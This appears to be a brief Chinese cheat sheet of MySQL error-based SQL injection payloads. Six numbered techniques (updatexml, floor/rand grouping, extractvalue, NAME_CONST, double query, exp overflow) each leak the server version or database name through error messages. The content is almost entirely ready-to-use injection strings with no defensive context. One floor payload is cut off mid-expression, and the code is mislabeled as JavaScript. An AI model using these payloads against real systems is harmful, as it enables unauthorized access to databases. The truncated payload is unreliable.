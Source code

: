 1.xmlupdate

```javascript
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

2.floor

通过floor报错：

```javascript
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x 
from information_schema.tables group by x)a)

and (select count(*) from (select 1 union select null union select  !1)x
 group by concat((select version
```

3.   通过ExtractValue报错：

```javascript
and extractvalue(1, concat(0x7f, (select version()),0x7f))
```

4. 通过NAME_CONST报错：

```javascript
and 1=(select * from (select NAME_CONST(version(),1),
NAME_CONST(version(),1)) as x)
```

5.  通过错误的双重查询：

```javascript
or 1 group by concat_ws(0x7f,version(),floor(rand(0)*2)) having min(0) or 1
```

6.通过exp报错

```javascript
'or EXP(~(SELECT * from(select database())a))#
```






